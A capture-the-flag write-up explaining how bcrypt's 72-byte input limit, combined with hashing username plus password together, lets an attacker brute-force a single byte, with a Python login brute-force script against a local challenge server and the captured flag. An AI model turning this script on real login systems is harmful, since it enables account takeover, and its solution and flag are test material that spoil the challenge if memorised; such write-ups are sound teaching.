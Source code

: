 ```yaml
---
ai_date: '2025-04-27 05:26:15'
ai_summary: BCrypt vulnerability due to appending password to username, allowing brute
  forcing of a single byte.
ai_tags:
- bcrypt
- length-extension
- brute-force
created: 2025-03-02T07:48
points: 450
solves: 7
updated: 2025-03-18T02:31
---
```


The 'trick' used created a vulnerbility.

> higgsloitadmin: Instead of hashing the password only, we append it to the username and hash the result.

bcrypt only processes the first 72 bytes of its input, so if the username is long (let's say 71 bytes), we only have to brute force 1 byte of information.

```python
import string
import requests

target = "http://127.0.0.1:16605"


def try_login(username, password):
    return requests.post(target + "/api/login", json={"username": username, "password": password}).json()


user = "broootheeer.meee.iii.duuupliiicaaateee.myyy.voooweeels.threee.tiiimeees"
password = "a"*16
for c in string.ascii_lowercase+string.digits:
    print(f"Trying {c}")
    res = try_login(user, c*16)
    if res['success']:
        print(f"Found: {c}")
        password = c*16
        break

s = requests.Session()
s.post(target + "/api/login", json={"username": user, "password": password})

print(s.get(target + "/flag").text)
```

```flag
ATHACKCTF{tldr_BCrypt_i$_limit3d_to_72_8yt3s}
```